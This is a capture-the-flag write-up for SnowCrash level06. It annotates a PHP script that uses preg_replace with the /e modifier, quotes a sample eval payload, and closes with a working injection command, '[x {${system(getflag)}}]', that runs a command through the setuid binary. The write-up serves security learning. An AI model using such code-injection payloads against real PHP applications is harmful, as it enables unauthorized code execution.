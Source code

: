 # Level06

## Research

```bash
level06@SnowCrash:~$ ls -l
total 12
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
```

```bash
level06@SnowCrash:~$ ./level06
PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4
level06@SnowCrash:~$ ./level06.php
PHP Notice:  Undefined offset: 1 in /home/user/level06/level06.php on line 5
PHP Notice:  Undefined offset: 2 in /home/user/level06/level06.php on line 5
PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4
```
```bash
level06@SnowCrash:~$ strings level06
[...]
/usr/bin/php
/home/user/level06/level06.php
[...]
```
Maybe `level06` executes `level06.php`.

If we `cat level06.php` the file is hard to read, so I re-wrote it and study it: 
```php
#!/usr/bin/php
<?php
    function y($m) { 
        $m = preg_replace("/\./", " x ", $m); 
        $m = preg_replace("/@/", " y", $m); 
        return $m; 
    }
    // manipule argv 1
    function x($y, $z) {
        // read file y and put content into string a
        $a = file_get_contents($y); 
        // first / indicates start of regular expression
        // second / indicates end of it, and start of expression flags
        // expression flag here: e , known for security problem
        // The e modifier is a PHP-specific modifier that triggers PHP 
        // to run the resulting string as PHP code.
        // the '/e' modifier actually allows us to evaluate the second argument as a PHP expression.
        // calls the function eval()
        // programms call function y() here thanks to modifier e
        // () Capturing group. Groups multiply tokens together and creates a capture group
        // for extracting a substring or using a backreference
        // \1 - it means the first capturing group in the matched expression. 
        // \n would be the nth capturing group. (Note that \0 would be whole match). 
        // In many engines, the upperlimit for n is 9, but some support up to 99 as well.
        // When used in regex like (a|b)\1, it means that after a or b, the next character 
        // should be the first captured group, which is a or b so the regex here would 
        // match aa or bb.
        // \[ matches a [ character
        // x matches a x character and a space one
        // . matches any character except line breaks
        // * matches 0 or more of the preceding token
        // \] matches a ] character

        // \[x (.*)\] first group --> [x ] or [x coucou] matches
        // .* second group, given as parameter to function y --> [x @.coucou] changes @ and . in y function
        // [x@ @.coucou] don't match first group, so it doesn't work
        $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
        // replace [ by (
        $a = preg_replace("/\[/", "(", $a);
        // replace ] by )
        $a = preg_replace("/\]/", ")", $a);
        return $a; 
    }
    // y = argv 1
    // z = argv 2
    $r = x($argv[1], $argv[2]); 
    print $r;
?>
```

Security concern about the `/e` modifier of `preg_repace()` :
`As /e evaluates arbitrary PHP code it can easily be exploited if user input is not carefully validated or sanitized.
For example the above example can be used to execute arbitrary PHP code by passing the string <h1>{${eval($_GET[php_code])}}</h1>. The evaluted code in this case would be "<h1>" . strtoupper("{${eval($_GET[php_code])}}") . "</h1>" and as such execute any PHP code passed in the php_code GET variable. ` </br>
https://wiki.php.net/rfc/remove_preg_replace_eval_modifier


```bash
level06@SnowCrash:~$ ./level06 hello
PHP Warning:  file_get_contents(hello): failed to open stream: No such file or directory in /home/user/level06/level06.php on line 4
```
We seems to need a file as an argument.

Theorical steps:
- Create a file with a syntax matching the regex
- So a part of the string (the second group) can be sent to function y
- In function y the string will be transformed (or not) then returned
- The returned string will be executed by the e modifier</br>
https://www.yeahhub.com/code-execution-preg_replace-php-function-exploitation/ </br>

In reality:
- Struggled **a lot** to find good syntax, tried: </br>
`echo '[x $(getflag)]' > /tmp/flag && ./level06 /tmp/flag` </br>
`echo '[x ${system(getflag)}]' > /tmp/flag && ./level06 /tmp/flag` </br>
and a lot of variants of it...

## Solution 

Let's find the good syntax:</br>
https://www.php.net/manual/fr/language.types.string.php</br>
https://www.voidsecurity.in/2012/12/exploit-exercise-php-pregreplace.html</br>
https://www.php.net/manual/fr/language.types.string.php#language.types.string.parsing.complex 

Finally:
```bash
level06@SnowCrash:~$ echo '[x {${system(getflag)}}]' > /tmp/flag && ./level06 /tmp/flag
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
Check flag.Here is your token : XXXXXXXXXXXXXXXXXXXXXXX
PHP Notice:  Undefined variable: Check flag.Here is your token : XXXXXXXXXXXXXXXXXXX in /home/user/level06/level06.php(4) : regexp code on line 1

```


